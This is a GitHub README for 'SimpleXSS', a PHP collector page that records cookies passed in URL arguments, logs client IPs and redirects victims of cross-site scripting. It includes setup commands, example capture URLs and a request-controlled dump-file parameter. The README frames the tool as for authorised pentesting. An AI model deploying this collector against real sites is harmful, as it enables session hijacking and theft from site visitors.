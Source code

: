 # Simple XSS [![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/bambish/SimpleXSS/blob/master/LICENSE.md) [![Twitter](https://img.shields.io/badge/twitter-@bambishee-blue.svg)](https://twitter.com/bambishee)

Simple index.php template to perform XSS attack.

### Features
* Record each URL args
* Record client IP
* Instant redirection (static or dynamic)

### Prerequisites
* Web server (apache2, nginx, ...)
* PHP

### Installing
In this guide I'm using apache2 on Debian 9. Obviously, you can use every web server and distro you want.

**1.** Install apache2 and php
```bash
apt install apache2 php
```

**2.** Get the sources
```bash
git clone https://github.com/bambish/SimpleXSS
```

**3.** Move index.php in the web server root dir
```bash
mv SimpleXSS/index.php /var/www/html
```

**4.** Set the access right to write dump files
```bash
chown root:www-data /var/www/html
chmod g+w /var/www/html
```

### Usage
* Basic usage: **cookies**=12345&**arg**=67890
```http
http://127.0.0.1/index.php?cookies=12345&arg=67890
```
*You can use every `arbitrary args name`*

* Dynamic redirection: **redirect**=http://arbitrarywebsite.com/
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&redirect=http://github.com/
```
*You can `change or disable` the `default redirection` by editing or comment `$staticredirection` var in `index.php`*
*You can force the static redirection if you set `$allowgetredirection` to false in index.php*

* Write in specific dump file: **dumpfile**=arbitraryfile.txt
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&dumpfile=arbitraryfile.txt
```
*Be shure your `web server` have the right `access to create and edit` files at the root dir*
*The default dump file is `dumpfile.txt`*

### Deploy with Docker
```
docker run -dit --name XSS -v /path/to/host/web/root/dir/:/var/www/html/ --publish 80:80 fauria/lamp
```
*Adapt the root dir path if you don't use apache2 and give write access to your docker container*

### Warning
This XSS template was created to perform pentest or others legal stuffs (like bug bounty).
Using this XSS template against web site **without authorization** is **forbidden**. 

I'm not responsible of your usage of this XSS template.
**At your own risk**.